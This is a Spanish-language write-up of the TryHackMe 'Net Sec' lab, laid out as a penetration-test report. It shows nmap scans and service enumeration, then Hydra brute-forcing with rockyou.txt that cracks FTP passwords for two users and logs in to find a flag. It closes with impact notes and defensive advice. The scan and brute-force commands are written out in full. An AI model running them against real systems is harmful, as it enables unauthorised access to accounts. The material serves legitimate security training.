

Net Sec - Premium
Sala enfocada en fundamentos de redes, reconocimiento y enumeración.
URL: https://tryhackme.com/room/netsecchallenge
Resumen
Se evaluó la seguridad de los protocolos SSH, HTTP y FTP, este último era vulnerable a ataques de fuerza bruta debido a nombres de usuarios obtenidos previamente y contraseñas débiles.
Un atacante, incluso sin conocimientos avanzados, puede obtener acceso de manera rápida y sencilla de tal manera que permite la filtración de datos. Las acciones inmediatas recomendadas es cambiar las contraseñas de los usuarios así como establecer politicas para la creación de las mismas.
Metodología
Reconocimiento
Escaneo inicial
Se realizaron dos escaneos con el objetivo de no consumir recursos innecesarios debido al rango dado en los puertos.
El primero
$ nmap -n -Pn -p0-10000 [TARGET]
El segundo
$ nmap -n -Pn -p10000-20000 [TARGET]
Hallazgos
El escaneo muestra los siguientes resultados respectivamente
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
139/tcp open netbios-ssn
445/tcp open microsoft-ds
8081/tcp open blackice-icecap
PORT STATE SERVICE
10001/tcp open scp-config
10121/tcp open unknown
Obteniendo un total de 7 puertos tcp abiertos
Enumeración
Los siguientes puertos son de particular interés por los servicios que ofrecen. Puerto 22, SSH; 80, HTTP; 10121, FTP.
SSH
Con un escaneo más profundo se obtuvo la versión del servicio, así como la bandera
$ nmap -n -Pn -sV -p22 [TARGET]
PORT STATE SERVICE VERSION
22/tcp open ssh (protocol 2.0)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.95%I=7%D=6/7%Time=6A25DA22%P=x86_64-pc-linux-gnu%r(NULL,
SF:2A,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{0123456789}\x20\r\n");
HTTP
Sin embargo para el puerto 80 no se podía obtener la versión, esto puede ser debido a alguna protección al host tales como firewalls, IDS o IPS
$ nmap -n -Pn -sV -p80 [TARGET]
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-07 14:57 CST
Stats: 0:00:19 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:01:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:01:34 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
El host no responde a las solicitudes hechas por nmap. Por ello se procede a visitar la pagina web http://TARGET

FTP
Para descubir en qué puerto estaba activo el servicio ftp se realizó un escaneo al único puerto que no mostraba servicio alguno, en este caso el puerto 10121.
nmap -n -Pn -sV -p10121 [TARGET]
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-07 15:15 CST
Nmap scan report for [TARGET]
Host is up (0.083s latency).
PORT STATE SERVICE VERSION
10121/tcp open ftp vsftpd 3.0.5
Service Info: OS: Unix
Explotación
A través de investigación previa, llamada comunmente "ingeniería social", se conoce que existen dos usuarios llamados "eddie" y "quinn" que utlizan el servicio FTP. Al aplicar fuerza bruta se obtuvieron sus contraseñas
$ hydra -l eddie -P rockyou.txt TARGET ftp -s 10121
[DATA] attacking ftp://TARGET:10121/
[10121][ftp] host: TARGET login: eddie password: [password]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-07 15:21:10
$ hydra -l quinn -P rockyou.txt TARGET ftp -s 10121
[DATA] attacking ftp://TARGET:10121/
[10121][ftp] host: TARGET login: quinn password: [password]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-06-07 15:21:10
Post Explotación
Utilizando las credenciales descubiertas es posible acceder a la cuenta del del usuario en el servicio FTP. La primera, eddie
$ ftp [TARGET] -P 10121
Connected to [TARGET].
220 (vsFTPd 3.0.5)
Name ([TARGET]:username): eddie
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30464|)
150 Here comes the directory listing.
226 Directory send OK.
ftp>
Para quinn
$ ftp [TARGET] -P 10121
Connected to [TARGET].
220 (vsFTPd 3.0.5)
Name ([TARGET]:username): quinn
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||30040|)
150 Here comes the directory listing.
-rw-rw-r-- 1 1002 1002 22 Feb 24 08:52 ftp_flag.txt
226 Directory send OK.
Impacto
Tener usuarios con credenciales débiles es una puerta de entrada para los atacantes, pueden tener acceso no autorizado de manera sencilla y realizar distintas tecnicas para comprometer el sistema. Al tratarse de una cuenta creada para una empresa, organización o institución las posibles consecuencias son filtración de datos, escalación de privilegios y persistencia.
Recomendaciones
- Almacenar las contraseñas con el hash y salt, no en texto plano.
- Implementar contraseñas alfanumericas, largas y únicas.
- Habilitar autenticación multifacor (MFA)
- Las respuestas de los servicios unicamente aportan información mínima necesaria para el usuario
Aprendizajes
Ofensivo
- Realizar un reconocimiento profundo, no de manera superficial leyendo solo el primer resultado
- Ante bloqueos hechos por el host buscar diversas maneras de evadirlos
- No suponer estados del sistema, es decir si está prendida, apagada, bloqueada, con protección, aislada, etc.
Defensivo
- Establecer politicas de contraseñas y cultura de seguridad
- Configurar tazas mínimas y máximas de solicitudes por segundo para mitigar escaneos, reconocimiento y fuerza bruta.